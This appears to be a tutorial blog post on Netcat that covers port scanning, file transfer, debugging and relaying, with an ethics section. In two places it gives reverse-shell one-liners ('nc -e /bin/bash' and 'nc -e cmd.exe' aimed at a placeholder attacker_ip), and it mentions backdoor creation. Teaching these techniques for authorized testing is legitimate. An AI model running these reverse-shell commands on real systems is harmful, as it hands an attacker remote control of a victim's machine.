 ```yaml
---
layout: post
title: Mastering Netcat for Networking and Cybersecurity
date: 2024-10-02 15:01:35 +0300
image: '/images/422.png'
tags: [Cybersecurity, Networking, Tools]
---
```


The **Netcat** (nc) command is often referred to as the Swiss Army knife of networking. It is a versatile tool for reading, writing, and analyzing data across network connections using TCP or UDP. Netcat is invaluable for penetration testers, network administrators, and cybersecurity professionals. This blog post explores Netcat’s features, its applications in networking and security, and common use cases. Be sure to follow the included **lab walkthrough** for hands-on practice.

---

## What is Netcat?

Netcat is a command-line utility that facilitates the creation and analysis of network connections. It supports various protocols and can be used for a wide range of tasks, from file transfers to port scanning.

Key capabilities of Netcat include:
- Creating client-server connections for data transfer.  
- Performing port scans to identify open services.  
- Acting as a network debugging and exploration tool.  

Netcat’s simplicity and power make it a must-have tool in any cybersecurity toolkit.

---

## Why Use Netcat in Cybersecurity?

Netcat’s versatility and ease of use make it ideal for cybersecurity and network diagnostics. Here’s why it’s a critical tool:

1. **Establishing Network Connections**  
   Quickly create TCP/UDP connections to test services or troubleshoot issues.

2. **Port Scanning**  
   Identify open ports and services running on a target system.

3. **File Transfers**  
   Easily send and receive files between systems over a network.

4. **Backdoor Creation**  
   Set up backdoors for testing post-exploitation scenarios (authorized use only).

5. **Data Debugging**  
   Analyze raw data sent over network connections.

---

## Key Features of Netcat

### 1. **Creating Network Connections**
Establish TCP or UDP connections to send or receive data.

**Command Example:**
```bash
nc -l -p 1234
```

### 2. **Port Scanning**
Scan for open ports on a target host to identify running services.

**Command Example:**
```bash
nc -zv example.com 1-1000
```

### 3. **File Transfers**
Transfer files between systems using Netcat.

**Command Example:**
```bash
# On the receiver
nc -l -p 1234 > received_file.txt

# On the sender
cat file.txt | nc target_ip 1234
```

### 4. **Creating Reverse Shells**
Test reverse shell connections for penetration testing purposes.

**Command Example:**
```bash
nc -e /bin/bash attacker_ip 4444
```

### 5. **Debugging and Analysis**
Send and receive raw data to debug network issues.

**Command Example:**
```bash
echo "Test Data" | nc target_ip 1234
```

---

## Common Use Cases for Netcat

### 1. **Port Scanning**
Identify open ports and services for network reconnaissance.

**Command Example:**
```bash
nc -zv example.com 80 443
```

### 2. **File Transfers**
Send and receive files over TCP connections.

### 3. **Reverse Shell Setup**
Establish reverse shells for authorized penetration testing.

**Command Example:**
```bash
nc -e cmd.exe attacker_ip 4444
```

### 4. **Testing Services**
Manually connect to services to troubleshoot connectivity.

**Command Example:**
```bash
nc example.com 80
GET / HTTP/1.1
```

### 5. **Relay and Proxy Connections**
Use Netcat to forward data between two endpoints for testing.

**Command Example:**
```bash
nc -l -p 1234 | nc target_ip 5678
```

---

## Ethical Considerations

Netcat is a powerful tool that must be used responsibly and ethically. Always:
- Obtain explicit permission before testing networks.
- Avoid unauthorized use that could disrupt services or breach legal regulations.
- Follow industry standards, such as the **OWASP Testing Guide** or **NIST SP 800-115**.

---

## A Deeper Dive: Hands-On Lab

This blog post is accompanied by a hands-on lab walkthrough that demonstrates:
- Using Netcat for port scanning and service testing.
- Creating client-server connections for file transfers.
- Setting up reverse shells for post-exploitation testing.

The lab provides practical exercises to help you master Netcat and its applications in cybersecurity. Don’t miss this opportunity to refine your skills.

---

> "The greatest glory in living lies not in never falling, but in rising every time we fall."  
> <cite>Nelson Mandela</cite>

---

## Conclusion

Netcat is a versatile and powerful tool for networking and cybersecurity tasks. Its ability to create connections, analyze data, and test network services makes it indispensable for professionals in the field.

The accompanying hands-on lab walkthrough provides a practical introduction to Netcat’s capabilities, allowing you to explore its applications in real-world scenarios. By mastering Netcat, you can enhance your network diagnostics and security testing skills. Dive into the lab and elevate your expertise today.
